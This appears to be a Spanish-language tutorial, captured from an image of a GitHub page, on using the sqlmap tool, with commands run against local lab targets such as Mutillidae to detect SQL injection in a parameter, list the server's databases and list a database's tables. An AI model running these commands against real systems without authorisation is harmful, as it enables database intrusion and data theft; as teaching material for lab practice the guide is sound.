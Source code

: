 ```bash
cd ruta\sqlmap
python sqlmap.py --help
```

---

#### 🧪 Ejemplo fácil de uso

Imagina esta URL vulnerable:

```
http://localhost/mutillidae/index.php?page=user-info.php&user_id=1
```

El parámetro `user_id` está en la mira.

---

##### ✅ Comando básico para detectar inyección:

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1"
```

Resultado:

```
[INFO] parameter 'user_id' is vulnerable
```

---

#### 🔍 Funcionalidades con ejemplos

---

##### 1️⃣ Detectar y explotar SQLi

```bash
sqlmap -u "http://localhost/app.php?id=1"
```

- sqlmap detectará si el parámetro `id` es vulnerable.

---

##### 2️⃣ Ver bases de datos del servidor

```bash
sqlmap -u "http://localhost/app.php?id=1" --dbs
```

- Extrae todos los nombres de bases de datos.

---

##### 3️⃣ Ver tablas de una base de datos

```bash
sqlmap -u "http://localhost/app.php?id=1" -D nombre_db --tables
```

---